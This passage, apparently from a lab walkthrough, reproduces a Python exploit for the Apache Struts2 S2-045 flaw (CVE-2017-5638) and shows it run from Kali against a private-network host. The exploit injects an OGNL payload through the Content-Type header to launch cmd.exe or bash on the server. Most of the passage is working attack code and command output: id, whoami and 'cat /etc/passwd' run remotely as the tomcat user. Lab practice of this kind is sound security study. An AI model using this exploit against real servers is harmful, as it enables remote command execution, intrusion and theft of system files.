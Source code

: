    ```python
       payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
       payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
       payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
       payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
       payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
       payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
       payload += "(#ros.flush())}"
   
       try:
           headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
           request = urllib2.Request(url, headers=headers)
           page = urllib2.urlopen(request).read()
       except httplib.IncompleteRead, e:
           page = e.partial
   
       print(page)
       return page
   
   
   if __name__ == '__main__':
       import sys
       if len(sys.argv) != 3:
           print("[*] struts2_S2-045.py <url> <cmd>")
       else:
           print('[*] CVE: 2017-5638 - Apache Struts2 S2-045')
           url = sys.argv[1]
           cmd = sys.argv[2]
           print("[*] cmd: %s\n" % cmd)
           exploit(url, cmd)
               
   ```

4. Run the python file with the exploit code

   ```
   ┌──(kali㉿kali)-[~/Desktop]
   └─$ python struts2-cve-2017-5638.py 
   [*] struts2_S2-045.py <url> <cmd>
                                                                                                                         
   ┌──(kali㉿kali)-[~/Desktop]
   └─$ python struts2-cve-2017-5638.py http://192.168.101.119:8080/struts2/ "id"
   [*] CVE: 2017-5638 - Apache Struts2 S2-045
   [*] cmd: id
   
   uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
   
                                                                                                                         
   ┌──(kali㉿kali)-[~/Desktop]
   └─$ python struts2-cve-2017-5638.py http://192.168.101.119:8080/struts2/ "whoami"
   [*] CVE: 2017-5638 - Apache Struts2 S2-045
   [*] cmd: whoami
   
   tomcat
   
                                                                                                                         
   ┌──(kali㉿kali)-[~/Desktop]
   └─$ python struts2-cve-2017-5638.py http://192.168.101.119:8080/struts2/ "cat /etc/passwd"
   [*] CVE: 2017-5638 - Apache Struts2 S2-045
   [*] cmd: cat /etc/passwd
   
   root:x:0:0:root:/root:/bin/bash
   daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
   ```